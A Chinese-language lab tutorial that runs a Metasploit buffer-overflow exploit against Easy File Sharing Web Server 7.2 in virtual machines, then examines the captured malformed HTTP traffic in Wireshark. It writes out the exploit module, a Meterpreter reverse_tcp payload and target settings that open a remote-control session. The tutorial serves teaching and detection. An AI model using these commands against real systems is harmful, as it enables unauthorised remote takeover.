 ## 15.2模拟缓冲区溢出攻击
在这个实验中，我们以一个在国外很流行的文件共享软件EasyFileSharingWebServer7.2作为实例，这个工具通过HTTP协议提供文件共享功能。**这里有漏洞的应用程序是简单文件分享Web服务器7.2（EasyFileSharingWebServer7.2）**，这个Web应用程序运行时的界面如图5所示。
图5简单文件分享Web服务器
![](https://image-1307616428.cos.ap-beijing.myqcloud.com/Obsidian/202307192332597.png)
在处理请求时存在的漏洞，==当接收到一个恶意的请求头部就可以引起缓冲区溢出，从而改写下一步要执行指令的地址==。图6给出了访问这个服务器的页面。
图6使用浏览器访问这个服务器的页面
![](https://image-1307616428.cos.ap-beijing.myqcloud.com/Obsidian/202307192332488.png)
好了，现在我们已经了解了在这次试验中使用的两个虚拟机：一个是KaliLinux2作为攻击发起端；另一个是Windows7，它上面运行着简单文件分享Web服务器7.2，IP地址为192.168.169.133。
图7筛选出包含敏感信息的数据包
![](https://image-1307616428.cos.ap-beijing.myqcloud.com/Obsidian/202307192333636.png)
那么我们现在就可以开始渗透测试了，首先启动KaliLinux2中的metasploit（见图8）。
图8Metasploit的启动界面
![](https://image-1307616428.cos.ap-beijing.myqcloud.com/Obsidian/202307192333554.png)
首先我们先用Search命令来查找和EasyFileSharing有关的模块，命令如下：
```js
msf>searchEasyFileSharing
```
在metasploit中查找了两个对应的模块，如图9所示。
图9查找到的EasyFileSharing渗透模块
![](https://image-1307616428.cos.ap-beijing.myqcloud.com/Obsidian/202307192334209.png)
这里我们使用exploit/windows/http/easyfilesharing_seh这个**模块**，这个漏洞是2015年
底发布的：
```js
msf>useexploit/windows/http/easyfilesharing_seh
```
启动了这个模块之后，我们可以使用“showoptions”来查看这个模块的选项，如图10所示。
图10使用“showoptions”来查看这个模块的选项
![](https://image-1307616428.cos.ap-beijing.myqcloud.com/Obsidian/202307192334130.png)
但需要注意的是，这里只列出了模块所需要的参数，其实我们如果想要利用这个模
块控制对方计算机的话，还需要**设置一个攻击载荷**，这里我们最为常用的是reverse_tcp：
```js
msfexploit(easyfilesharing_seh)>setpayloadwindows/meterpreter/reverse_tcp
msfexploit(easyfilesharing_seh)>setlhost192.168.169.130
msfexploit(easyfilesharing_seh)>setrhost192.168.169.131
msfexploit(easyfilesharing_seh)>setrport80
msfexploit(easyfilesharing_seh)>exploit
```
当这个模块执行之后，我们就会获得一个用来控制目标系统的session，如图11所示。
图11使用exploit命令进行渗透
![](https://image-1307616428.cos.ap-beijing.myqcloud.com/Obsidian/202307192334212.png)
从图11可以看到我们已经打开了一个session，也就是开启了对目标（192.168.169.131）的控制。而且我们现在获得了一个Meterpreter，利用它就可以完成对目标主机的远程控制。在这个过程中，我们使用Wireshark捕获了所有的通信流量，并将其保存为easyfilesharing_seh.pacap。
## 15.3 使用Wireshark分析缓冲区溢出攻击
在Wireshark中观察easyfilesharing_seh.pacap文件，**这个文件前面的数据包都是一些
ARP数据包，没有发现异常**。在第121个数据包时，192.168.32.129和192.168.32.132通过
TCP3次握手建立了连接。但接下来的4个HTTP数据包（见图15-12）却明显出现了异常，这明显是一个HTTP请求的分片，但是这个请求的长度显然太长了。
图15-12一个HTTP请求的分片
![](https://image-1307616428.cos.ap-beijing.myqcloud.com/Obsidian/202307192335863.png)
注意，这个数据包的数据部分在Wireshark中显示为“truncated”（见图13），意为“截断”。这很正常，因为它的长度为1332Bytes，这显然太长了，不可能放在同一行中。**在Wireshark的窗口中这种包含攻击载荷的数据包被显示错误是非常正常的**，因为攻击者恰恰就是利用构造一些畸形数据包来实现自己的目的。
图 13 数据包的数据部分在Wireshark中显示为【truncated】
![](https://image-1307616428.cos.ap-beijing.myqcloud.com/Obsidian/202307192336238.png)
正常提交的数据不会有这样的长度，**只有攻击者在试图进行缓冲区攻击时才会构造这种数据包**。
